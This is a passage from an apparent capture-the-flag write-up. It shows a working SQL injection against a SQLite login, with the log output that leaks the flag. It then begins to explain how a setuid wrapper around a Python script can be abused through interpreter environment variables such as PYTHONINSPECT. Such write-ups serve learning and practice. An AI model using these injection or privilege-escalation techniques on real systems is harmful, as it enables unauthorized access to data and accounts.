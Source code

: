 A nice trick about sqlite3 is that it saves the SQL of some (past?) queries in the `sqlite_schema` table. This means that we can get the flag by simply leaking the SQL used in the database. To do so, we injected the following SQL: `admin' UNION SELECT 0,'a',sql FROM sqlite_schema WHERE sql LIKE '%flag%' -- `. This returns the following:

```text
...
2023/04/16 17:20:43 Validating login user=admin' UNION SELECT 0,'a',sql FROM sqlite_schema WHERE sql LIKE '%flag%' --
2023/04/16 17:20:43 SQL statement=SELECT * FROM users WHERE name ='admin' UNION SELECT 0,'a',sql FROM sqlite_schema WHERE sql LIKE '%flag%' -- ' AND pw ='admin'
2023/04/16 17:20:43 User exists with name=admin and pw=flag{eZ_M0n3y!1?}
```

### Ezila

This challange offered a remote shell to a server. In the server, there are a few interesting files:

```bash
$ ls -lah
total 64K
drwxrwxr-x 1 root  root  4.0K Apr 13 02:38 .
drwxr-xr-x 1 root  root  4.0K Apr 16 17:26 ..
-rw-rw-r-- 1 ezila ezila  187 Apr 13 02:20 CREDITS.txt
-rwxr-x--- 1 ezila ezila 7.7K Apr 13 02:20 ezila.py
-r-------- 1 ezila ezila   53 Apr 13 02:37 flag.txt
-rwsr-xr-x 1 ezila ezila  17K Apr 13 02:38 run-ezila
-r-------- 1 ezila ezila  14K Apr 13 02:20 script.txt
```

As we are not `ezila`, we can only read `CREDITS.txt` and run `run-ezila`.
After dumping the `run-ezila` ELF file, we saw that it simply was an interface to calling `ezila.py` with `uid=ezila(1001)`. There's no vulnerability in the ELF itself.

We searched around a little bit on Google due to a sentence in CREDITS.txt:

```text
ELIZA-in-Python implementation forked from https://github.com/wadetb/eliza.

If you like the challenge, go give the original repo a star!

(If you don't like the challenge, blame us...)
```

It says that this is a fork. However, we could not find a fork of the linked repository, meaning that they probably lied to us.

Some hours and dumb tries later, we remembered about python environment variables. [This page](https://docs.python.org/3/using/cmdline.html) contains the full list of environment variables used by the python interpreter. There are many solutions using env variables, with the intended one probably being using `PYTHONPATH` to override some python methods called by `ezila.py`.
However, the one we found is pretty neat: [PYTHONINSPECT](https://docs.python.org/3/using/cmdline.html#envvar-PYTHONINSPECT). As per the linked docs, this variable has the same meaning of passing `-i` in the `python` cmdline, that is:
